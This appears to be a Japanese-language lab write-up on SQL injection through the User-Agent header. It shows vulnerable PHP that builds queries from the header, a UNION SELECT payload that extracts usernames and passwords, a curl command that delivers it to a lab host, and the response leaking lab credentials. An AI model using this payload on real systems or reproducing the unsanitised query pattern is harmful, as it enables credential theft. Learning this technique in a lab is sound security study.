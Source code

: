 ログを挿入するサーバーサイドコード
- User-Agent 値は、INSERT SQL文を使用してログテーブルに挿入される
- 挿入が成功した場合は、成功メッセージが表示されます。挿入中にエラーが発生した場合は、詳細を含むエラーメッセージが表示される
```php
$userAgent = $_SERVER['HTTP_USER_AGENT'];
$insert_sql = "INSERT INTO logs (user_Agent) VALUES ('$userAgent')";
if ($conn->query($insert_sql) === TRUE) {
    echo "<p class='text-green-500'>New logs inserted successfully</p>";
} else {
    echo "<p class='text-red-500'>Error: " . $conn->error . " (Error Code: " . $conn->errno . ")</p>";
}
$sql = "SELECT * FROM logs WHERE user_Agent = '$userAgent'";
.....
```

## ペイロード
```sql
UNION SELECT username, password FROM user; #
```
ポイント
- **既存の文字列リテラルを閉じる**: 最初の一重引用符 ( `'`) は、SQL クエリ内の既存の文字列リテラルを閉じるため
- **UNION SELECT ステートメントを挿入します**。`UNION SELECT username, password FROM user;`ペイロードの部分は、ユーザー テーブルからユーザー名とパスワードの列を取得するため
- **クエリの残りの部分をコメント アウト**: この文字は、 SQLクエリの残りの部分をコメント アウトするため

このペイロードを挿入するには、 HTTPリクエストのUser-Agentヘッダーの一部として送信する必要がある
curlコマンドの-Hで送れるよ
```sh
└─$ curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://10.10.120.190/httpagent/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SQL Injection </title>
    <link href="../css/tailwind.min.css" rel="stylesheet">
</head>
<body class="bg-gray-100">
    <div class="container mx-auto p-8">
        <h1 class="text-4xl font-bold mb-8 text-center">HTTP Logs</h1>
        <div class="bg-white p-6 rounded-lg shadow-lg">

<p class='text-gray-600 text-sm mb-4'>Generated SQL Query: <span class='text-red-500'>SELECT * FROM logs WHERE user_Agent = '' UNION SELECT username, password FROM user; #'</span></p><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>bob</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>bob@123</span></p></div><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>attacker</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>tesla</span></p></div>
        </div>
    </div>
</body>
</html>
              
```
